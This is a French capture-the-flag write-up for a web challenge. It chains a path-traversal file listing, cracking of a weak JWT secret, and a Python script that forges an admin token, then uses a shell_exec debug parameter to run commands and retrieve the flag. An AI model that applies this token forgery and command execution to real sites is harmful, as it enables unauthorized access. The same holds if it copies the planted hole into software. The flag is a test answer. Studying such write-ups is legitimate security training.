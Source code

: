 ![Desc](images/desc.png)

# Writeup

On part d’une page web qui nous permet de lister des ingrédients "pour une glace comme fait notre papi", la première vulnérabilité est une Local File Inclusion, en effet en modifiant le paramètre `dir=ingredients` par `dir=/`, on peut lister les fichiers et dossiers du dossier courant :

![LFI](images/list.png)

Voici le fichier admin.php :

```php
<?php
$canExecute = false;
$secret = trim(file_get_contents('jwt_secret.txt'));

$adminToken = trim(file_get_contents('role.txt'));

function base64url_encode($data) {
    return rtrim(strtr(base64_encode($data), '+/', '-_'), '=');
}

function base64url_decode($data) {
    return base64_decode(strtr($data, '-_', '+/'));
}

function verify_jwt_hs256($jwt, $secret) {
    $parts = explode('.', $jwt);
    if (count($parts) !== 3) return false;

    list($header_b64, $payload_b64, $sig_b64) = $parts;
    $expected_sig = base64url_encode(hash_hmac('sha256', "$header_b64.$payload_b64", $secret, true));

    if (!hash_equals($expected_sig, $sig_b64)) return false;

    return json_decode(base64url_decode($payload_b64), true);
}

function is_admin($jwt, $secret, $adminRole) {
    $payload = verify_jwt_hs256($jwt, $secret);
    if (!$payload) return false;
    return isset($payload['role']) && strtoupper(trim($payload['role'])) === strtoupper(trim($adminRole));
}

if (isset($_COOKIE['auth'])){
    if (is_admin($_COOKIE['auth'], $secret, $adminToken)) {
        
    
    $canExecute = true;
    }
}

if (!$canExecute) {
    $header = base64url_encode(json_encode(['alg' => 'HS256', 'typ' => 'JWT']));
    $payload = base64url_encode(json_encode(['role' => 'simple-utilisateur']));
    $signature = base64url_encode(hash_hmac('sha256', "$header.$payload", $secret, true));

    $jwt = "$header.$payload.$signature";

    setcookie('auth', $jwt, time() + 3600, "/");
    $_COOKIE['auth'] = $jwt;
}

if ($_SERVER['REQUEST_METHOD'] === 'GET' && isset($_GET['debug'])) {
    if (!$canExecute) {
        echo "<p>Tu ne peux pas executer de commandes avec debug tant que tu n'es pas authentifié en tant qu'admin</p>";
        exit;
    }

    $cmd = $_GET['debug'];
    $output = shell_exec($cmd);
    echo "<pre>$output</pre>";
    exit;
}
?>
```

Ce script récupère le secret JWT depuis `jwt_secret.txt` et le rôle admin attendu depuis `role.txt`, puis il vérifie le JWT du cookie, génère un token "simple-utilisateur" si l’utilisateur n’est pas admin, et n’autorise l’exécution de commandes via ?debug qu’en cas de correspondance entre le rôle du JWT et celui de `role.txt`.

L'idéal serait donc de pouvoir récupérer le secret jwt et le rôle admin pour forger le token admin, mais ce n'est pas vraiment possible via le `?dir`.

En revanche en indiquant uniquement `/role.txt` à partir de l'url on recupère le vrai rôle admin :

![ADMINROLE](images/adminrole.png)

> [!NOTE] 
> Après coup je me suis rendu compte que l'on pouvait également récupérer le secret jwt avec cette même méthode mais idiot comme je suis je n'ai même pas testé x)

Nous avons accès au token jwt avec le rôle "simple-utilisateur" au départ mais il faut le secret jwt pour forger le bon token pour le rôle admin, on peut utiliser jwt_tool pour cracker ce secret (ou hashcat) :

![SECRET](images/secret.png)

On utilise un script python pour forger le bon token maintenant que nous avons tout ce dont on a besoin :

```python
import hmac
import hashlib
import base64
import json

def b64url(data: bytes) -> str:
    return base64.urlsafe_b64encode(data).rstrip(b'=').decode()

def make_jwt(secret: str, role: str, header_b64: str = None) -> str:
    if header_b64:
        h_b64 = header_b64
    else:
        h_b64 = b64url(json.dumps({'alg':'HS256','typ':'JWT'}, separators=(',',':')).encode())
    p_b64 = b64url(json.dumps({'role':role}, separators=(',',':')).encode())
    sig = hmac.new(secret.encode(), f"{h_b64}.{p_b64}".encode(), hashlib.sha256).digest()
    s_b64 = b64url(sig)
    return f"{h_b64}.{p_b64}.{s_b64}"

if __name__ == '__main__':
    secret = 'icecream'
    role = 'PAPI-JE-SUIS-UN-ADMIN'
    print(make_jwt(secret, role))
```

![TOKEN](images/forge.png)

On remplace le token simple utilisateur par ce token admin dans notre navigateur et on regarde si l'on peut effectuer des commandes à l'aide de l'option `?debug` :

![ID](images/id.png)

Nous sommes admin, il ne reste plus qu'à trouver le flag maintenant, en fouillant un peu on le trouve dans secrets/.recette_de_papi :

![FLAG](images/flag.png)

**Flag**

`SHLK{Ic3_Cr3am_L0v3r}`
